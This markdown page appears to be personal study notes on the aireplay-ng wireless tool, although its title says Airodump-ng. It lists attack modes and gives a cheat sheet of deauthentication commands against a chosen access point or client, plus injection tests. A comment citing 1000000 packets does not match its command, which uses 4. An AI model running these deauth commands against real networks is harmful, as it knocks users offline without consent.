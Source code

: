 ```yaml
---
description: >-
  Airodump-ng
title:  Airodump-ng         # Add title here
date: 2023-09-26
 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Aircrack Suite]                     # Change Templates to Writeup
tags: [wireless, airodump-ng]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Airodump-ng 

Aireplay-ng is primarily useful for generating wireless traffic.

Aireplay-ng supports the following attacks. They are listed along with the corresponding number from the tool's documentation.


|ATTACK |	ATTACK NAME |
|--------|-------|
| 0	| Deauthentication |
|1	| Fake Authentication |
|2	| Interactive Packet Replay |
|3	| ARP Request Replay Attack |
|4	| KoreK ChopChop Attack |
|5	| Fragmentation Attack |
|6	| Café-Latte Attack |
|7	| Client-Oriented Fragmentation Attack |
|8	| WPA Migration Mode Attack |
|9	| Injection Test |


```bash
# deauth a client (1000000 is a large number of packets, to keep the deauth attack working for a while):
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon

# To background the command and don't see output
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon &> /dev/null &

# with "jobs" we can see the jobs backgrounded with &. each has an ID
jobs

# kill all backgrounded aireplay processes.
killall aireplay-ng 

# kill only the first process in the "jobs" list:
kill %1

# To deauth every client connected to a BSSID don't specify a client <MAC>
aireplay-ng --deauth 4 -a <bssid> wlan0mon &> /dev/null &

# check if we can inject in visible APs
sudo aireplay-ng -9 wlan0mon 

# check if we can inject in a specific AP
sudo aireplay-ng -e <ap_name> -a <MAC> wlan0mon

# Same as above, but without expecting to receive probes
sudo aireplay-ng -e <ap_name> -a <MAC> -D wlan0mon

# if we have two wifi cards, wlan0mon and wlan1mon, card-to-card test, to make sure they can inject. if it says (5/7 error, still can be used to attack an AP)
sudo aireplay-ng -9 -i wlan1mon wlan0mon
```

